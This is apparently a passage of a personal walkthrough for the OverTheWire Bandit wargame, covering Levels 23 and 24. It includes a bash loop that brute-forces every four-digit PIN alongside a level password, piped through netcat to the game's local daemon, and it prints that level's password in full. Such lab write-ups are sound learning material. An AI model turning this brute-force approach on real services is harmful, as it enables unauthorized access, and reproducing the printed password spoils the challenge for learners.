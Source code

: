 `chmod +x myscript.sh`

wait for it to execute...

then `cat /tmp/bandit24_pass_for_bandit23`

Level 24:
i would need to create a bash script
`mktemp -d`

`nano script.sh`
```shell
#!/bin/bash

# echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8";

for pin in $(seq -w 0000 9999); do
   echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 "$pin;
done; 
```

then we execute this command and use `netcat`
`./script.sh | nc localhost 30002 > results.txt`
make sure to give the shell script permissions `chmod +x script.sh`

Level 25:
